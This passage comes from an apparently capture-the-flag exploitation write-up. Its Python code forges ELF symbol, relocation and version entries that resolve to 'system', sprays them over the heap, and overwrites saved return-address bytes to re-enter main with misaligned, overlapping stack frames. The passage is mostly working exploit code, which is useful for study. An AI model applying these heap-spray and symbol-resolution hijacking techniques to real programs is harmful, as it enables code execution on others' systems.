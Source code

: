 We'll then actually create the symbol structures, into a simple sprayable
`payload`.

```python
fake_symtab_entry = (
    p32(0x17) + p8(10) + p8(1) + p16(0) + p64(bin.symbols["main"]) + p64(0)
) + (p32(strtab_idx) + p8(10) + p8(0) + p16(0) + p64(0xDEADBEEF) + p64(0))
fake_reloc_entry = (p64(0x4018) + p32(7) + p32(ver_idx) + p64(0)) + (
    p64(0x4018) + p32(7) + p32(ver_idx + 1) + p64(0)
)
fake_vertab_entry = p64(0x03) + b"system\x00"
payload = fake_reloc_entry + fake_vertab_entry
```

We'll then actually spray this payload over the heap, at intervals of `0x1000`.

```python
for i in range(maximum_heap_offset // 0x2000 * 0xC):
    # write payload at offsets
    symtab_offset = 0x908 + 0xF0
    reloc_symtab_offset = 0x908
    # create series of writes and the indexes they need to be written at
    payload_offsets = sorted(
        [
            ((reloc_symtab_offset - i * 0x10) % 0x2000, payload),
            ((reloc_symtab_offset + 0x1000 - i * 0x10) % 0x2000, payload),
            ((symtab_offset - i * 0x10) % 0x2000, fake_symtab_entry),
            ((symtab_offset + 0x1000 - i * 0x10) % 0x2000, fake_symtab_entry),
        ],
        key=lambda x: x[0],
    )

    spray_buf = Buffer()
    spray_buf.truncate(0x2000)
    for offset, dat in payload_offsets:
        if offset > 0x2000 - len(dat):
            continue
        spray_buf.seek(offset)
        spray_buf.write(dat)

    spray_buf.seek(0)

    spray_buf.swrite(ret_addr, 0x76) # recall main on ret
    spray_buf.swrite(0, 0xFF)
    buf.write(spray_buf.getvalue())
    buf.commit()
```

Now that we've sprayed our symbol data over the heap, we call overlap the stack
frames of `main` and `__libc_start_call_main`:

```python
# set lsb to main+0x10 to misalign the stack by 0x10 bytes
buf.swrite(main_addr, 0xD0)
# set lsb of __libc_start_call_main to recall main+0x10
buf.swrite(ret_addr, 0x76)
# set edi to large malloc (local variable argc by __libc_start_call_main)
buf.write_bytes(main_addr + 0x8 + 0x4, p32(0x2000))

buf.swrite(0, 0xFF)
buf.commit()
```
